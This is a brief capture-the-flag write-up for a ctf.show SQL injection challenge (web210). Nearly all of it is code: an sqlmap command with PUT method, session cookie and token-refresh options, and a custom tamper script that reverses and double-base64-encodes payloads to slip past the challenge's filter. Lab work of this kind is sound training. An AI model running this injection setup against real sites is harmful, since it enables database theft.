

# 知识点

# 思路
```bash
python sqlmap.py -u "http://8bbeef68-b36a-4201-a626-a04fa705bb0c.challenge.ctf.show/api/index.php" --method="PUT" --data="id=1" --referer=ctf.show --headers="Content-Type: text/plain" --cookie="PHPSESSID=1vrv4fg7q4uid8i1lhma043h20" --safe-url="http://8bbeef68-b36a-4201-a626-a04fa705bb0c.challenge.ctf.show/api/getToken.php" --safe-freq=1 --tamper=web210.py

```
```bash
#!/usr/bin/env python

import base64
from lib.core.enums import PRIORITY

__priority__ = PRIORITY.LOW

def tamper(payload, **kwargs):
    payload = payload[::-1].encode()
    payload = base64.b64encode(payload)
    payload = (payload.decode())[::-1]
    payload = base64.b64encode(payload.encode())
    return payload.decode()

```

